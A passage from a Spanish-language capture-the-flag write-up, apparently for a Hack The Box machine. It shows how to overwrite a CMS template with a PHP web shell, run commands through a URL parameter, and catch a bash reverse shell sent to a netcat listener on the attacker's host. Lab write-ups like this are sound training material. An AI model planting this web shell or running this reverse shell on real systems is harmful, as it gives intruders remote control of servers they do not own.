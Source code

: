 <br>

<h3 id="PHP3">Suplantando Código de Template para Obtener una CMD</h3>

De igual forma que el ejemplo anterior, vamos a modificar el código en PHP del mismo **Template** con el siguiente:
```php
<?php
	system($_REQUEST['cmd']);
?>
```
<p align="center">
<img src="/assets/images/htb-writeup-blocky/Captura32.png">
</p>

Guarda los cambios y entra en la misma **URL** que utilizamos antes, añade **?cmd=whoami** y observa la magia:

<p align="center">
<img src="/assets/images/htb-writeup-blocky/Captura33.png">
</p>

De esta forma, podemos mandar una **cmd de bash** hacia una **netcat**.

Primero abre la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```
E introduce el siguiente comando en la **URL**:
```bash
Original:
bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1'

URL:
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```
